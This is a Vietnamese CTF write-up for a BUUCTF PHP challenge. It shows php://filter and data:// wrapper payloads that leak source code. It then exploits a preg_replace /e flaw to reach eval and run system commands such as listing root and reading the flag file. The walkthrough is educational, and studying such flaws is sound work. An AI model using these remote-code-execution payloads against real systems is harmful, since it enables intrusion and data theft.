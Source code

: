 ![Screenshot 2023-12-19 100803](https://github.com/Llam-a/BUUCTF/assets/115911041/f8f686d1-21bf-42f8-b353-9519b1a0e616)

Challenge này khá giống chall [này](https://github.com/Llam-a/BUUCTF/blob/main/%5BGXYCTF2019%5D%E7%A6%81%E6%AD%A2%E5%A5%97%E5%A8%83.md) nên là mình skip vài bước đầu.

Payload: `?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/convert.base64-encode/resource=next.php`

Sau đó được 1 chuỗi base64 đem đi decode

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei', 
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

Có 2 hàm trong source mà ta có thể dùng để bypass là `getFlag` và `eval`.Nhưng trong source lại ko có hàm nào có thể trigger 2 hàm đó.Nhưng 

```php
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```
Cú pháp của `preg_replace($pattern, $replacement, $subject);`.Nói cho dễ hiều thì ví dụ `preg_replace(1,2,3)` thì 3 sẽ đi tìm 1 bên trong 3 và từ đó thay đổi cái vừa tìm được thành 2. Điểm quan trọng là `/e`,“e” chỉ cho PHP đánh giá chuỗi thay thế dưới dạng mã PHP. Vì vậy, vòng lặp sẽ sử dụng $ _GET và sử dụng tên của tham số làm regex và giá của tham số làm chuỗi mục tiêu.

Mình có đọc wu [ở đây](https://xz.aliyun.com/t/2557) để hiểu thêm cách bypass `preg_replace()\e`

Theo wu đó thì mình sử dụng `. *` để bypass ví dụ

`return preg_replace('/(. *)/ei', 'strtolower("\\1")', 'LAMA');`

Thì kết quả trả về sẽ là `lama`

Vậy từ đề bài

```php
Original statement: preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
Change the statement: preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

Đầu tiên mình ls các file ra `/next.php?\S*=${getFlag()}&cmd=system("ls /");`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1e7747b0-2f7e-4cc6-8661-291c1ec644d8)

Rồi giờ mình cat flag ra thôi `/next.php?\S*=${getFlag()}&cmd=system("cat%20/f*");`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/23d78709-a9d7-4448-a51b-d19f751b2606)


